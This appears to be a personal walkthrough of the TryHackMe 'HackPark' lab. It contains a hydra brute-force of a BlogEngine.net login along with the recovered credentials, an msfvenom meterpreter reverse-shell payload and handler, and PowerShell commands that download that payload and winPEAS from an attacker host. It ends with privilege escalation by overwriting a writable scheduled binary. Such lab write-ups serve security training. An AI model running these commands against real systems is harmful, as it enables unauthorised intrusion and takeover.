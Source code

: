 # Link
- https://tryhackme.com/room/hackpark

# Info

## IP = $IP

## Creds
- admin:1qaz2wsx

## Versions
- BlogEngine.net:3.3.6.0

# Ports

## Port Scanning
```bash
PORT     STATE SERVICE
80/tcp   open  http
3389/tcp open  ms-wbt-server
```

## 80
- login page

### `hydra`
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt $IP http-post-form "/Account/login.aspx?ReturnURL=%2fadmin%2f:__VIEWSTATE=T16BD6ZKZwtPWZq5WPAKXQ0HHuFrWTOpCaHcDtDL3jRtXhiQ0X8awYt3i0h50GlQcqZQixmpjZHAE5%2Fywhj40tjmWKTWz8YWzYmk4NdZBu78aNdfxqEsYf7f1QOwIZsssswu3D3cUGSdkNApNOQKhzfVenDsVdKH72jnGUVG7jZHf4W6PcGs86MIge4jHHvLlEDft3ZPO%2FCaCoaNzpQi4eQjbFPxK5X5LxH5FEZpARpoadBzahWb2PDTchrKYPy0Vck0LB51wveygYC1L6ioKCJhtZ4SvhUZA8xfsQIPrTqkV3u%2BYtoE6TQ9a9ioFc6q8cQNRYIxPsuq2FKgnJ1QT36GflVOfdCP70BH8GUwEqrBCcvu&__EVENTVALIDATION=sYKBMho%2BkYdi07tiHX0YOvjA0dLn0GZj063ytovoALKg92lR03rI2b%2BjkpIbDOp4fyrSViB1cNpANEt7Ew3nLXdSTleq6ZmRlfTgNA1mvT4AR4UP89L8pBeczAG1RVnXKIPdYenkVZqHWenpIp7%2Fcl67%2Fdhv7i9FPjZmuVVCVhPRJwoT&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -V -I
...
[80][http-post-form] host: $IP   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-03-23 19:10:25
```

### Admin panel
- version found
- https://www.exploit-db.com/exploits/46353

## 3389

# PrivEsc

## `msfvenom` to create a shell file
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=$ATK_IP LPORT=1234 -f exe -o shell-name.exe
```

## open listener in `msfconsole`
```bash
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST $ATK_IP
LHOST => $ATK_IP
msf6 exploit(multi/handler) > set LPORT 1337
LPORT => 1234
msf6 exploit(multi/handler) > run
```

## get file from target machine
```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://$ATK_IP:8000/shell-name.exe','shell-name.exe')"
```

## run file
```powershell
.\shell-name.exe
```

## Meterpreter

### get winpeas
```powershell
powershell -c "(New-Object System.Net.WebClient).Downloadfile('http://$ATK_IP:8000/winpeas.bat','winpeas.bat')"
```

### process _Message.exe_ is strange...
```bash
meterpreter > pwd                                                                              
c:\Program Files (x86)\SystemScheduler
meterpreter > dir
Listing: c:\Program Files (x86)\SystemScheduler
===============================================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
040777/rwxrwxrwx  4096     dir   2024-03-23 20:24:33 -0400  Events
100666/rw-rw-rw-  60       fil   2019-08-04 07:36:42 -0400  Forum.url
100666/rw-rw-rw-  9813     fil   2004-11-16 02:16:34 -0500  License.txt
100666/rw-rw-rw-  1496     fil   2024-03-23 18:56:24 -0400  LogFile.txt
100666/rw-rw-rw-  3760     fil   2024-03-23 18:56:55 -0400  LogfileAdvanced.txt
100777/rwxrwxrwx  536992   fil   2018-03-25 13:58:56 -0400  Message.exe
```

- all permissions

### get shell file as new Message.exe:
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://$ATK_IP:8000/shell-name.exe','Message.exe')"
```

### wait listening the shell and got root shell =D